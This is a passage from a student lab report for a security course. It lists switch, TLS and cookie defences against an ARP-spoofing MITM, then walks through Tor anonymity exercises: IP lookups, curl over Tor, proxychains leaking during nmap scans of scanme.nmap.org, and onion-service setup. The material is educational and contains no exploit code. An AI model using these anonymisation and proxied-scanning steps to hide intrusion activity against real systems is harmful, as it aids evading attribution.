
*Figure 1.17 — 100% packet loss reported by the victim, explained by the gateway's own non-responsiveness rather than a failed attack.*


*Figure 1.18 — Direct packet-level proof: the victim's ICMP requests to the gateway physically arrive on Kali's interface.*

### C.4 — Three client controls, in deployment order

1. **Dynamic ARP Inspection (DAI) / port security on the office switch** — deployed first because it stops the attack at its root by validating ARP replies against a trusted binding table and dropping forged packets before they reach any host. *Stops:* all ARP-based MITM on that segment. *Does not stop:* attacks that don't rely on ARP spoofing (rogue DHCP, a compromised switch port with a legitimate MAC, or an attacker who genuinely controls the gateway).
2. **Enforce HTTPS/TLS end-to-end (HSTS + HTTP→HTTPS redirect)** — deployed second so that even if an attacker still achieves a MITM position elsewhere (e.g. an unmanaged guest network DAI doesn't cover), the intercepted traffic is unreadable and the session cookie unreplayable without also defeating certificate validation. *Stops:* credential/cookie sniffing in cleartext (Parts B.1/B.2 of this report). *Does not stop:* an attacker who can also perform TLS-stripping or control a rogue CA, or purely application-layer issues like XSS/CSRF.
3. **Set HttpOnly, Secure, and SameSite on the session cookie** — deployed last as defense-in-depth, narrowing the blast radius if the first two controls are ever bypassed or misconfigured. *Stops:* JavaScript-based cookie theft via XSS, the cookie ever travelling over plaintext, and the cookie being attached to forged cross-site requests. *Does not stop:* an attacker who already holds a valid MITM position and a trusted certificate.

---

# Task 2 – Anonymity and the Dark Web

## Step 1 — Your IP, three ways

| Method | Command | Extra information provided |
|---|---|---|
| ipify | `curl -s https://api.ipify.org` | Bare IP address only, nothing else |
| ipinfo.io | `curl -s https://ipinfo.io/json` | IP plus city, region, country, coordinates, ISP/org, postal code, timezone |
| browserleaks.com | Full page visit | All of the above, plus WHOIS ownership/abuse-contact records, a Tor-relay-status check, and client-side fingerprinting (TCP/IP, TLS/JA3/JA4, HTTP headers) |

**One-sentence difference:** `ipify` returns only the bare address; `ipinfo.io` adds geolocation and ISP metadata; `browserleaks.com` goes further still with WHOIS, Tor-relay verification, and full client fingerprinting that the other two don't attempt at all.

*The real IP address and precise location fields (city, region, coordinates, postal code) have been redacted below and in the corresponding screenshots, per the assignment's instruction against exposing a real IP in a shared document.*


*Figure 2.1 — `curl -s https://api.ipify.org`, IP redacted.*


*Figure 2.2 — `curl -s https://ipinfo.io/json`, sensitive fields redacted; country/org/timezone left visible to illustrate the extra metadata this method provides.*


*Figure 2.3 — browserleaks.com's IP/location table, sensitive rows redacted.*


*Figure 2.4 — TCP/IP, TLS, and HTTP header fingerprinting data (not personally identifying, shown unredacted).*


*Figure 2.5 — Tor relay status check (confirms this IP is not a known Tor exit) and WHOIS block; the map pinpointing exact location has been redacted.*


*Figure 2.6 — ISP (Telenor Pakistan) WHOIS abuse/technical contact records — public registry data about the ISP, not personally identifying to this report's author.*


*Figure 2.7 — WHOIS record continued.*

## Step 2 — Tor service

```
sudo apt install tor -y
sudo service tor start
sudo ss -tlnp | grep 9050
```
→ `LISTEN 0 4096 127.0.0.1:9050`

```
curl -s https://api.ipify.org                                    → [REDACTED - real IP]
curl -s --socks5-hostname 127.0.0.1:9050 https://api.ipify.org   → 192.42.116.59
```

**Why they differ:** the direct request leaves Kali's NIC straight out to the internet, so the destination sees the real ISP-assigned address. The Tor request instead gets wrapped in layered encryption and relayed through at least three Tor hops (guard → middle → exit) before reaching the destination, which only ever sees the exit relay's IP — never the client's real address. This is Tor's core anonymity property.


*Figure 2.8 — Tor installed, started, and confirmed listening on 127.0.0.1:9050.*


*Figure 2.9 — Real IP (redacted) vs. Tor exit-node IP, confirming the two differ.*

## Step 3 — Tor leak

```
proxychains4 curl -s https://api.ipify.org
```
```
[proxychains] Strict chain ... 127.0.0.1:9050 ... api.ipify.org:443 ... OK
104.244.72.115
```
Correctly tunneled — an explicit "Strict chain ... OK" trace is shown, and the returned IP is a different Tor exit than Step 2's, confirming an independent circuit.

```
sudo proxychains4 nmap -sS -p 80,443 scanme.nmap.org
proxychains4 nmap -sT -p 80,443 scanme.nmap.org
```
Neither command printed a "Strict chain ... OK" trace line. A parallel `tcpdump -i eth0 -nn host 45.33.32.156` on Kali confirmed, for **both** scan types, real ICMP/SYN/SYN-ACK/RST packets flowing directly between Kali's real interface and the real target — genuine leaks in both cases, not just the raw-socket `-sS` scan.

**What actually happened, contrary to the textbook expectation that only `-sS` leaks:** `proxychains` intercepts the standard libc `connect()` call via `LD_PRELOAD`. `nmap`'s internal scan engine manages its own sockets — non-blocking I/O and custom timing for ordinary scans, and fully raw packet crafting for `-sS` — in ways that bypass this simple hook in *both* modes, not only the raw-socket case. The missing "Strict chain ... OK" line for both nmap commands (versus its clear presence for the plain `curl` request) was the first sign, and tcpdump confirmed it directly on the wire as ground truth. Per the assignment's own instruction to submit what actually happened rather than what was expected, this report documents the genuine result: both scan types leaked, and only the simple `curl` request was verifiably protected.


*Figure 2.10 — `nmap -sS` through proxychains4, no "Strict chain" trace shown.*


*Figure 2.11 — tcpdump capturing the real, direct ICMP/SYN/RST traffic generated by the -sS scan.*


*Figure 2.12 — `nmap -sT` through proxychains4, also with no "Strict chain" trace shown.*


*Figure 2.13 — tcpdump capturing 14 packets of real, direct TCP handshake traffic from the -sT scan — confirming it leaked too.*

## Step 4 — Onion service

```
sudo apt install apache2 -y && sudo systemctl start apache2
echo "<h1>My Onion Service - DFCS Assignment 8</h1>" | sudo tee /var/www/html/index.html
curl -s http://127.0.0.1
```
→ page served locally, confirmed independent of Tor.

`/etc/tor/torrc` appended with:
```
HiddenServiceDir /var/lib/tor/my_site/
HiddenServicePort 80 127.0.0.1:80
```
```
sudo service tor restart
sudo cat /var/lib/tor/my_site/hostname
```
→ `d4q6iwsgdhemr5ee6pjoii76zqcqriua6oes6eipqqp2ijutdgdukead.onion`

The address portion is confirmed **exactly 56 characters** long (verified programmatically), matching the expected length for a Tor v3 onion service address.

Loading the address in Tor Browser initially failed with `CONNECTREFUSED`, traced to the system `tor` service and Tor Browser's own bundled Tor instance briefly conflicting on first launch; restarting the system service (`sudo service tor stop && sudo service tor start`) resolved it, after which the page loaded correctly: the full `.onion` address shown in the URL bar, Tor's onion/padlock security indicator present, and the test page content rendered.


*Figure 2.14 — HiddenServiceDir/HiddenServicePort lines added to /etc/tor/torrc.*


*Figure 2.15 — Apache serving the test page locally, confirmed via curl.*


*Figure 2.16 — The generated 56-character v3 onion address.*


*Figure 2.17 — The onion service successfully loaded in Tor Browser, showing the full .onion address and page content.*

## Step 5 — Verify-config

```
sudo tor --verify-config
```
```
[warn] /var/lib/tor/my_site/ is not owned by this user (root, 0) but by debian-tor (121).
Perhaps you are running Tor as the wrong user?
[warn] Failed to parse/validate config: Failed to configure rendezvous options. See logs for details.
[err] Reading config failed--see warnings above.
```

```
sudo -u debian-tor tor --verify-config
```
```
Configuration was valid
```

**Explanation:** Tor hardens hidden service directories by requiring ownership to exactly match the user the daemon actually runs as in production (`debian-tor`), since that directory holds the hidden service's private key. Root privileges do not satisfy this check — root's ability to read/write the files at the OS level is irrelevant to Tor's own explicit "does this belong to the expected user" identity validation. The trap is the common assumption that root can do anything a lower-privileged user can; here, running the same command as root actively fails a check that the correct, lower-privileged user passes immediately, because the test is about identity match, not permission level.

